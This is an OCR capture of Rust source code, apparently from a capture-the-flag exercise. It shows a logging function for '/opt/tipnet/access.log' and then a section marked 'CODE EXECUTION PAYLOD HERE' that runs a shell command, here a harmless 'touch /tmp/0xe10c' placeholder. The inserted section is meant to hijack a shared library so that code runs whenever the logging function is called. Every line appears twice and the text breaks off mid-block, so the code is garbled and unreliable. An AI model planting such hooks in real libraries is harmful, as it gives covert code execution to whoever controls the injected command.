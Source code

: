 ```


use std::fs::OpenOptions;
use std::fs::OpenOptions;
use std::io::Write;
use std::io::Write;
use chrono::prelude::*;
use chrono::prelude::*;
use std::process::Command;
use std::process::Command;


pub fn log(user: &str, query: &str, justification: &str) {
pub fn log(user: &str, query: &str, justification: &str) {
    let now = Local::now();
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);


    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Ok(file) => file,
        Err(e) => {
        Err(e) => {
            println!("Error opening log file: {}", e);
            println!("Error opening log file: {}", e);
            return;
            return;
        }
        }
    };
    };


    if let Err(e) = file.write_all(log_message.as_bytes()) {
    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
        println!("Error writing to log file: {}", e);
    }
    }


// CODE EXECUTION PAYLOD HERE
// CODE EXECUTION PAYLOD HERE
    let command = Command::new("touch") // command
    let command = Command::new("touch") // command
        .arg("/tmp/0xe10c") //args - just repeat this line as needed
        .arg("/tmp/0xe10c") //args - just repeat this line as needed
        .output()
        .output()
        .expect("bash command failed");
        .expect("bash command failed");


    if command.status.success() {
```